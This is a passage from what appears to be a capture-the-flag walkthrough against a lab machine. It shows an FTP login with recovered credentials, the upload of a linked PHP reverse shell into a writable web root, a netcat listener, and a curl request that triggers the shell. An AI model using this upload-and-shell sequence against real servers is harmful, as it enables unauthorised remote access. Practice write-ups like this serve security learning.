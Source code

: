 We can try to login into different servives with the usernames and passwords.

## FTP

I used paradox's creds (`pradox:ShibesAreGreat123`) and logged into FTP service:

~~~
$ ftp $IP
Connected to 10.10.7.25.
220 (vsFTPd 3.0.3)
Name (10.10.7.25:user): paradox
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    3 48       48             94 Nov 17  2020 .
drwxrwxrwx    3 48       48             94 Nov 17  2020 ..
drwxr-xr-x    2 48       48             24 Nov 08  2020 backups
-rw-r--r--    1 0        0           65591 Nov 17  2020 hallway.jpg
-rw-r--r--    1 0        0            1770 Nov 17  2020 index.html
-rw-r--r--    1 0        0             576 Nov 17  2020 main.css
-rw-r--r--    1 0        0            2511 Nov 17  2020 overpass.svg
226 Directory send OK.
~~~

As you can see, these are the website's sources and this directory is writable which means we can upload a reverse shell and call it from the webpage. Let's upload the good old [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). (Don't forget to change the IP to yours.):

~~~
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (84.4771 MB/s)
~~~

## Reverse Shell

Now we can start a listener and call the shell:

Listener:
~~~
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

Call the shell from:
~~~
$ curl -s "http://$IP/shell.php"
~~~

